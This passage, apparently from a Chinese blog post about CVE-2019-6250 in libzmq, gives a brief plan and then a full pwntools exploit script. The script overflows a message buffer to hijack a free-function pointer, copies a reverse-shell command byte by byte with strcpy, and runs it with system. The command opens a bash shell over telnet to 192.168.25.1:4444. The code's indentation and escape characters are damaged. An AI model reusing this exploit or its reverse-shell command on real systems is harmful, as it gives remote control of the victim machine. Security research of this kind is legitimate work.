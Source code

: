 那么，我的想法是，在二进制文件中找命令中的所有字符，通过执行strcpy进行拷贝，拼接成完整的命令，最后用调用system函数进行执行，实现反弹shell。  
  
exp如下  
```
#!/usr/bin/env python
# -*- encoding: utf-8 -*-
'''@File : exp.py@Time : 2023/06/24 08:59:34@Author : 5ma11wh1t3@Contact : 197489628@qq.com'''

import ctypes
from pwn import *
import base64
context.log_level=True
context.arch='amd64'
elf_path = './build/demo'
elf = ELF(elf_path)
ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
inter = lambda : p.interactive()
def debug():
    gdb.attach(p, 'directory    /home/guo/Desktop/cve/cve-2019-6250/libzmq/src')
    pause()
def lg(s,addr = None):
    if addr:
        print('033[1;31;40m[+] %-15s --> 0x%8x033[0m'%(s,addr))
    else:
        print('033[1;32;40m[-] %-20s 033[0m'%(s))

if __name__ == '__main__':
    re_shell = b"mknod backpipe1 p && telnet 192.168.25.1 4444 0<backpipe1    | /bin/bash 1>backpipe1;"
    with open(elf_path,'rb') as f:
    binary = f.read()
    ads = []
    for char in re_shell:
    char_address = 0x400000 + binary.index(char)
    ads.append(char_address)
    for i in range(len(ads)):
    p = remote('127.0.0.1',6666)
    p1 = b'xff' + b'x00'*8 + b'x01' + b'x01' +b'x00'
    p1 += b'x02' + b'xff'*8
    p1 += b'a'*8183
    p1 += p64(0x4050F8+i) # void* data rdi
    p1 += p64(0) # size_t size
    p1 += p64(elf.plt['strcpy']) # msg_free_fn *ffn func
    p1 += p64(ads[i]) # void* hint rsi
    sn(p1)
    p.close()
    p = remote('127.0.0.1',6666)
    p1 = b'xff' + b'x00'*8 + b'x01' + b'x01' +b'x00'
    p1 += b'x02' + b'xff'*8
    p1 += b'a'*8183
    p1 += p64(0x4050F8) # void* data rdi
    p1 += p64(0) # size_t size
    p1 += p64(elf.plt['system']) # msg_free_fn *ffn func
    p1 += p64(ads[i]) # void* hint rsi
    # raw_input()
    sn(p1)
    p.close()
```  